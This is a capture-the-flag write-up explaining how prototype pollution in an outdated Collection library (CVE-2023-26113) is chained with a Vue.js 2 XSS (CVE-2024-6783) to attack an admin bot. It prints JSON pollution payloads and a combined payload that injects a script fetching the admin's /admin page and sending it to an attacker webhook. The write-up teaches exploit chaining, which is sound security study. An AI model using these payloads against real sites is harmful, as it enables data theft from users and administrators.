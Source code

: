 
## CVE Challenge: Prototype Pollution and XSS Exploit

This challenge is about crafting a graph to send Baba(Admin bot) 
<div class = "flex flex-wrap w-[90vw] gap-4">
    <img src="/static/writeups/photos/CVE.png" alt="Home Page"/>
    <img src="/static/writeups/photos/CVE2.png" alt="Pollute Page"/>
</div>


This challenge involves a CVE-related vulnerability that results in prototype pollution, which can then be exploited to achieve XSS through a secondary vulnerability in Vue.js.

## CVE-2023-26113: Prototype Pollution

The application uses an outdated version of the Collection library, which is vulnerable to CVE-2023-26113. This vulnerability allows for prototype pollution. The issue lies in the `create.js` file with the following code:

```javascript
$C.extend(true, points, data);
```

This function uses `.apply` without checking for `getOwnProperty`, allowing the `points` array to be polluted since `data` can be any JSON input provided by the user.

## CVE-2024-6783: Vue.js XSS via Prototype Pollution

The prototype pollution vulnerability can be exploited through CVE-2024-6783, a known issue in Vue.js 2 that allows XSS if prototype pollution is present. By polluting `Object.prototype.staticClass` with malicious script content, arbitrary code execution can be achieved.

## Step 1: Pollute the Prototype

You can begin by polluting the prototype using the following JSON payload:

```json
{"__proto__": 
    {"__proto__": 
        {"staticClass":"JSCODEHERE"}
    }
}
```

## Step 2: Insert Malicious Script

This pollution doesn't immediately trigger the vulnerability because the `staticClass` usage is wrapped in a `with(this)` enclosure. However, by inserting your own `<script>` element into the page, you can execute arbitrary code. Here's an example:

```javascript
_c('script',[_v('fetch(`/admin`).then(res=>res.text()).then(dat=>fetch(`webhook?`%2bdat))')])
```

The `_c` function creates a new element in Vue, and the second input array is the content of that element.

## Combined Exploit

By combining these techniques, you can create a payload that looks like this:

```json
{"__proto__": 
    {"__proto__": 
        {"staticClass":"'',attrs:{'id':'main-app'}},[_c('h1',[_v('Main Vue Content')]),_v(' '),_c('script',[_v('fetch(`/admin`).then(res=>res.text()).then(dat=>fetch(`{webhook}?`%2bdat))')]),_v(' '),_c('div',{staticClass:'',attrs:{'id':'dynamic-component'}}])}\/\/"}}
}
```

## Afterword
Wasnt expecting any solves from this, especially from a 8h CTF, and I was right :D


## Additional Resources
[CVE-2023-26113](https://security.snyk.io/vuln/SNYK-JS-COLLECTIONJS-3185148) 

[CVE-2024-6783](https://nvd.nist.gov/vuln/detail/CVE-2024-6783)